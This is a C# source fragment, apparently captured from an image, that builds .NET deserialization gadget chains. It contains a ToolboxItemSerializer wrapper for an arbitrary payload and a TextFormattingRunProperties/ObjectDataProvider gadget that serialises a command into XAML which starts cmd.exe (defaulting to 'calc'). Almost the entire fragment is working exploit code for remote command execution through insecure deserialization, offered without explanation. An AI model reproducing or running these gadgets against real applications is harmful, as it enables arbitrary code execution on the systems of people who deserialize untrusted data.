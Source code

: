 ```plain
    }
    [Serializable]
    public class ToolboxItemSerializerMarshal : ISerializable
    {
        public ToolboxItemSerializerMarshal(byte[] payload)
        {
            Payload = payload;
        }

        private byte[] Payload { get; }
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(Type.GetType("System.Drawing.Design.ToolboxItemContainer+ToolboxItemSerializer, System.Drawing.Design, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"));
            info.AddValue("AssemblyName", new AssemblyName());
            info.AddValue("Stream", Payload);
        }
    }
    //生成TextFormattingRunProperties的字节通用方式
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        public static string gadget(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;

            return XamlWriter.Save(odp);
        }
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            _xaml = gadget(cmd);
        }
        public TextFormattingRunPropertiesMarshal()
        {
            _xaml = gadget("calc");
        }
    }
}
```
